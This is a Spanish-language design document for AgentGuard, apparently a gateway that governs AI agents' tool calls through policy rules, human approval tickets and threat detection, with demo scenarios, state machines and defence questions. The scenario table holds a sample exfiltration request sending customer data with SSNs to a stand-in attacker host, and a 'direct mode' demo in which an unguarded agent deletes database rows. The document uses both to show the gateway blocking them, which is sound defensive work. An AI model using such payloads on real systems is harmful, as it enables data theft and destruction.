





# 04 — Secuencias de Demo, Máquinas de Estado y Casos de Uso UML

> **Documento Maestro Funcional y Dinámico (SSOT):** Basado 100% en el flujo real verificado en `backend/app/services/pep_gateway_service.py`, `backend/app/api/gateway.py`, `backend/app/api/approvals.py`, `backend/app/models/enums.py`, `agent-demo/run_demo.py`, `backend/tests/test_gateway_scenarios.py` y `acme-corp/`.

---

## 1. Diagrama de Secuencia: Los 4 Escenarios Canónicos (Gateway PEP/PDP)

Antes de despachar cualquiera de los 4 escenarios, los clientes del Data Plane (`agent-demo/run_demo.py` o `acme-corp/agent/gemini_client.py`) consultan `GET /api/v1/gateway/context` con cabecera `X-AgentGuard-Key: ag_live_...` para auto-descubrir `organization_id`, `agent_id` y los `tool_id` de destino.



### Payloads y Respuestas Reales Verificadas (`agent-demo/run_demo.py` y `test_gateway_scenarios.py`)

| Escenario | Acción (`action_name`) | Parámetros Canónicos (`parameters`) | HTTP | `decision` / `status` | Efecto en Persistencia y Destino |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **1. Operación Normal** | `create_quote` | `{"amount": 2500, "customer_id": "cust_acme_01", "currency": "USD"}` | `200` | `ALLOW` / `EXECUTED` | Despacha `POST /crm/create_quote`; guarda `Execution` (`latency_ms` real). |
| **2. Abuso de Privilegio** | `update_price` | `{"product_id": 88, "new_price": 10}` | `403` | `DENY` / `REJECTED` | Rechazado por ausencia en `AgentTool`; **no** invoca `/catalog/update_price`. |
| **3. Gobernanza HITL** | `refund` | `{"amount": 4500, "customer_id": "cust_302", "reason": "damaged_goods"}` | `202` -> `200` | `REQUIRE_APPROVAL` / `PENDING_APPROVAL` -> `EXECUTED` | Crea `Approval(PENDING)`. Al resolver `APPROVED` vía JWT (`APPROVER`/`ADMIN`), re-despacha `POST /stripe/refund`. |
| **4. Exfiltración ASI03** | `export_customers` | `{"destination": "https://attacker.io/leak", "format": "csv", "include_ssn": true}` | `403` | `DENY` / `REJECTED` | `ThreatDetector` detecta `ASI03`, enmascara `Bearer` (LLM06), crea `Alert(CRITICAL, OPEN)` y emite `NEW_ALERT`. |

---

## 2. Diagrama de Secuencia: Flujo Estrella "Consultante BI" con Gemini 3.8 Flash

Implementado en `acme-corp/agent/gemini_client.py`, `acme-corp/agent/presets.py`, `acme-corp/server/app.py` y `acme-corp/server/static/app.js`. Compara el **Modo Protegido** (con `Consultante BI` gobernado por la política *"Gobernanza Consultante BI (Solo Lectura)"*: `ALLOW query_sales` prioridad 150, `DENY delete_sales` prioridad 250) frente al **Modo Directo** (sin AgentGuard).

```mermaid
sequenceDiagram
    autonumber
    actor Admin as "Personal Administrativo (ACME UI :9000)"
    participant ACME as "ACME Backend (/api/agent/run)"
    participant Gemini as "Gemini 3.8 Flash (thinkingLevel low)"
    participant PEP as "AgentGuard PEP/PDP (:8000)"
    participant SQLite as "ACME SQLite (acme_corp.db)"

    Note over Admin,SQLite: PASO 1 — Consulta Analítica: "Dame todas las ventas mayores a $1,000 del mes pasado"
    Admin->>ACME: POST /api/agent/run (preset="consult_sales", mode="protected", use_llm=true)
    ACME->>Gemini: Turno 1 generateContent (8 functionDeclarations, thinkingLevel="low")
    Gemini-->>ACME: functionCall query_sales(min_amount=1000, period="last_month")
    ACME->>PEP: GET /gateway/context + POST /gateway/execute (Consultante BI, query_sales)
    PEP->>PEP: PDP evalúa regla ALLOW (prioridad 150) -> 200 OK
    PEP->>SQLite: POST /bi/query_sales -> SELECT * FROM sales WHERE amount >= 1000
    SQLite-->>PEP: 4 registros ($17,200 USD) + agregados pie_chart
    PEP-->>ACME: 200 OK {decision: "ALLOW", result: {sales, pie_chart}}
    ACME->>Gemini: Turno 2 (model_turn_parts con thoughtSignature + functionResponse)
    Gemini-->>ACME: Respuesta en español + Tabla interactiva (ui_payload.table_data)
    ACME-->>Admin: Renderiza tabla de ventas > $1,000

    Note over Admin,SQLite: PASO 2 — Gráfica de Torta SVG: "Ahora esos datos hacemelos en una gráfica de torta"
    Admin->>ACME: POST /api/agent/run (preset="consult_pie_chart", mode="protected")
    ACME->>Gemini: Turno 1 -> functionCall generate_pie_chart(min_amount=1000, period="last_month")
    Note right of ACME: generate_pie_chart se mapea a acción autorizada "query_sales" en PEP
    ACME->>PEP: POST /gateway/execute (Consultante BI, action="query_sales")
    PEP->>SQLite: POST /bi/query_sales -> datos agregados por producto
    PEP-->>ACME: 200 OK {decision: "ALLOW", result: {pie_chart}}
    ACME-->>Admin: ui_payload.is_chart_view=true -> renderPieChartSVG() en el navegador

    Note over Admin,SQLite: PASO 3A — MODO PROTEGIDO: "Ahora borrá de la base las ventas menores a $1,000"
    Admin->>ACME: POST /api/agent/run (preset="consult_delete_attempt", mode="protected")
    ACME->>Gemini: Turno 1 -> functionCall delete_sales(max_amount=1000, period="last_month")
    ACME->>PEP: POST /gateway/execute (Consultante BI, action="delete_sales")
    PEP->>PEP: PDP evalúa regla DENY (prioridad 250) + RiskLevel CRITICAL -> Alert CRITICAL
    PEP-->>ACME: 403 Forbidden {decision: "DENY", status: "REJECTED", alert_id}
    ACME->>SQLite: Solo lectura (log_event=False) para conservar vista actual sin mutar DB
    ACME->>Gemini: Turno 2 functionResponse {status: "blocked", decision: "DENY"}
    Gemini-->>ACME: Explica bloqueo y ofrece filtro visual no destructivo
    ACME-->>Admin: ui_payload.offer_local_filter -> Botón "Ocultar < $1,000" (applyLocalFilter en JS; SQLite intacta)

    Note over Admin,SQLite: PASO 3B — MODO DIRECTO (Comparativa Sin Protección): Bypass de AgentGuard
    Admin->>ACME: POST /api/agent/run (preset="consult_delete_attempt", mode="direct")
    ACME->>Gemini: Turno 1 -> functionCall delete_sales(max_amount=1000)
    ACME->>SQLite: execute_in_direct_mode() -> DELETE FROM sales WHERE amount <= 1000
    SQLite-->>ACME: deleted_count > 0 (Registros eliminados físicamente de SQLite!)
    ACME-->>Admin: Alerta visual: datos borrados de la base real por omitir AgentGuard
```

> [!IMPORTANT]
> **Detalle de implementación Gemini 3 (`gemini_client.py`):** Para modelos `gemini-3.8-flash` (y fallback automático ante HTTP `404`/`429`/`503` o timeout hacia `gemini-3.5-flash-lite`), el cliente envía `generationConfig: {"temperature": 0.2, "thinkingConfig": {"thinkingLevel": "low"}}` y preserva íntegro `model_turn_parts` (incluyendo `thoughtSignature` interno del modelo) en el Turno 2 de *Function Calling* mientras filtra partes con `part.get("thought")` al construir `final_answer`.

---

## 3. Máquinas de Estado Reales (`stateDiagram-v2`)

Todos los estados mostrados coinciden textualmente con los `StrEnum` de `backend/app/models/enums.py` y las transiciones implementadas en `pep_gateway_service.py` y `alerts.py`.

### 3.1 Ciclo de Vida de `Execution.status` (`ExecutionStatus`)



### 3.2 Ciclo de Vida de `Approval.status` (`ApprovalStatus`)

En `PEPGatewayService.resolve_approval()`, la lectura del ticket utiliza **`SELECT ... WITH FOR UPDATE`** (`with_for_update()`) para garantizar atomicidad ante resoluciones concurrentes y verifica el **TTL de `900` segundos (15 minutos)** respecto a `approval.created_at`.



### 3.3 Ciclo de Vida de `Alert.status` (`AlertStatus`)

Las alertas nacen siempre en estado `OPEN` (desde `PEPGatewayService` ante amenaza detectada `AlertSeverity.CRITICAL` o bloqueo `DENY` sobre acción `RiskLevel.HIGH`/`CRITICAL`) y se actualizan mediante `PATCH /api/v1/alerts/{alert_id}/status` (roles `ADMIN`, `APPROVER`, `OPERATOR`), registrando `resolved_by_user_id` y emitiendo `ALERT_STATUS_UPDATED` vía WebSocket.



---

## 4. Diagrama de Casos de Uso UML, Especificación y Preguntas de Defensa

### 4.1 Diagrama de Casos de Uso UML (Mermaid)



### 4.2 Especificación Resumida de Casos de Uso Clave

| Código | Caso de Uso | Actores | Precondiciones | Flujo Principal y Postcondición |
| :--- | :--- | :--- | :--- | :--- |
| **CU-01** | Autenticar JWT y Rotar Clave | Todos los roles humanos | Usuario registrado en PostgreSQL | `POST /auth/login` verifica bcrypt y emite JWT con `boot_id`. Si `must_change_password=true`, la SPA fuerza `POST /auth/change-password`. |
| **CU-05** | Definir Políticas y Reglas PDP | `ADMIN` | JWT `ADMIN` válido, sin `X-Agent-Id` | Crea `Policy` y `PolicyRule` (`conditions JSONB`), invalida Redis best-effort y registra `AuditEvent` inmutable. |
| **CU-07** | Interceptar Ejecución PEP/PDP | `Agente de Ventas`, `Consultante BI`, `ACME Corp ERP` | `X-AgentGuard-Key` activa y `Agent.status == ACTIVE` | Sanitiza (LLM06), analiza amenazas (OWASP ASI01/03/04/05), verifica `AgentTool`, evalúa PDP 5D, persiste `Execution` (`latency_ms` real) y emite `200`/`202`/`403` + WebSocket. |
| **CU-08** | Simular en Modo Sandbox | `ADMIN`, `OPERATOR` | JWT `ADMIN` u `OPERATOR` | `POST /gateway/simulate` fuerza `dry_run=True`, evalúa PDP/amenazas y explica el veredicto sin persistir trazas ni llamar a ACME ERP. |
| **CU-09** | Resolver Ticket HITL | `ADMIN`, `APPROVER`, `ACME Corp ERP` | Ticket `PENDING` en el mismo tenant | Toma lock `FOR UPDATE`, valida TTL `<= 900s`, actualiza `Approval` y `Execution`, re-despacha herramienta si `APPROVED` y emite `RESOLVED_APPROVAL`. |
| **CU-10** | Gestionar Alertas | `ADMIN`, `APPROVER`, `OPERATOR` | Alerta existente en el tenant | Actualiza `Alert.status` (`OPEN`/`INVESTIGATING`/`RESOLVED`/`DISMISSED`), guarda `resolved_by_user_id` y emite `ALERT_STATUS_UPDATED`. |
| **CU-12** | Auditar Bitácora Inmutable | `ADMIN`, `AUDITOR` | JWT `ADMIN` o `AUDITOR` | Consulta `GET /audit-events` aislado por `organization_id` con filtros por `actor_type` y `event_type`. |

---

### 4.3 Preguntas de Defensa Técnica ante Cátedra

1. **¿Por qué un agente de IA no puede aprobar sus propios reembolsos ni modificar políticas si lograra obtener un token o enviar su `X-Agent-Id`?**
   - *Respuesta verificada en código:* Todas las dependencias del Control Plane (`get_current_user`, `require_admin_user`, `require_roles` en `backend/app/api/deps.py`) inspeccionan explícitamente la cabecera `X-Agent-Id` y lanzan `403 Forbidden` inmediato si está presente. Además, los agentes en el Data Plane solo poseen `X-AgentGuard-Key` (autenticación de tenant para `/gateway/context` y `/gateway/execute`), nunca un JWT de usuario humano con rol `ADMIN` o `APPROVER`.

2. **¿Cómo garantiza AgentGuard que una acción aprobada en HITL (`refund`) no se ejecute dos veces ni quede colgada indefinidamente si nadie responde?**
   - *Respuesta verificada en código:* En `PEPGatewayService.resolve_approval()` (`pep_gateway_service.py`), la consulta usa `.with_for_update()` (bloqueo pesimista a nivel de fila en PostgreSQL) y valida `approval.status == ApprovalStatus.PENDING`, impidiendo doble resolución concurrente. Además, verifica un TTL estricto de `900` segundos (15 minutos): si expiró, transiciona el ticket a `EXPIRED` y la ejecución asociada a `REJECTED` (*Fail-Closed*) sin despachar la herramienta.

3. **¿Qué ocurre si un usuario malicioso engaña al LLM (*Prompt Injection*) o codifica en Base64 un ataque para saltar las reglas comerciales de negocio?**
   - *Respuesta verificada en código:* Incluso si existe una regla `ALLOW` en el PDP para esa acción (por ejemplo, `create_quote` con monto válido), `PEPGatewayService.execute()` ejecuta `ThreatDetectorService.analyze()` antes de decidir. Si detecta ASI01 (*Prompt Injection*), ASI03 (*Exfiltración C2*), ASI04 (ofuscación Base64 recursiva) o ASI05 (SQL/comandos destructivos), el Gateway hace *override* inmediato a `DENY`, guarda `_security_threat` en `request_context`, dispara una `Alert(CRITICAL, OPEN)`, emite `NEW_ALERT` por WebSocket y notifica al webhook SIEM si está habilitado.

4. **¿Cómo resuelve el "Consultante BI" el pedido destructivo del usuario administrativo sin romper la base de datos ni frustrar la experiencia de usuario?**
   - *Respuesta verificada en código:* En Modo Protegido, `gemini_client.py` invoca `delete_sales` a través del Gateway PEP (nunca se auto-censura en el prompt), el PDP aplica la regla `DENY` de prioridad `250` y devuelve `403 Forbidden`. Al recibir el bloqueo, `gemini_client.py` retorna `ui_payload.offer_local_filter` y `app.js` ofrece el botón *"Ocultar < $1,000 de esta vista (sin tocar la DB)"*, recalculando la tabla y el gráfico de torta SVG exclusivamente en memoria del navegador mientras SQLite (`acme_corp.db`) permanece 100% íntegra.

5. **¿Qué pasa si hay un empate de prioridades entre una regla `ALLOW` y una regla `DENY` en el PDP, o si se reinicia el backend mientras hay sesiones abiertas en el Frontend?**
   - *Respuesta verificada en código:* Ante empate de especificidad y prioridad en `PDPEngine.evaluate()`, la cláusula SQL `CASE` ordena determinísticamente `DENY (1) < REQUIRE_APPROVAL (2) < ALLOW (3)`, ganando siempre la postura más restrictiva (*Fail-Closed*). Respecto a reinicios del backend, `security.py` genera un `SERVER_BOOT_ID` en memoria incluido en el claim `boot_id` de cada JWT y expuesto en `GET /health`; tanto `decode_access_token()` en el backend como `AuthContext.tsx` en el frontend invalidan cualquier sesión previa si `boot_id` no coincide.
